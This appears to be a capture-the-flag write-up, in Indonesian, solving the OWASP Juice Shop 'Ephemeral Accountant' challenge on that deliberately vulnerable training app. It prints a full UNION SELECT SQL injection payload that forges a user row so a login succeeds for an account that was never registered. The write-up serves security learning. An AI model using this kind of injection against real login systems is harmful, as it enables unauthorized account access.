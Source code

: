 # Ephemeral Accountant OWASP Juice Shop

Link resource: https://demo.owasp-juice.shop/#/score-board?categories=Injection&showDisabledChallenges=false

Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Solusi

Untuk menyelesaikan challenge ini kita perlu login ke akun yang sebenarnya tidak ada, yaitu acc0unt4nt@juice-sh.op

Caranya, kita manfaatkan endpoint Search yang sebelumnya kita gunakan untuk menemukan database schema. Dari schema tersebut, kita bisa melihat query pembuatan tabel Users, dan dari situ kita bisa tahu struktur kolom yang dipakai untuk membuat user.

<img src="./img/61.png" />

Sekarang kita akan bikin query sendiri pakai UNION untuk membuat akun ini.
Dengan tahu struktur kolom dari tabel Users (id, email, password, role, dsb.) lewat database schema tadi, kita bisa menyusun UNION SELECT yang menginject data user baru ke hasil query. Tujuannya supaya akun acc0unt4nt@juice-sh.op muncul seakan-akan valid di sistem.

```sql
' UNION SELECT 45 as id, 'acnt' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, '1.1.1.1' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2025-09-04 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
```

<img src="./img/62.png" />
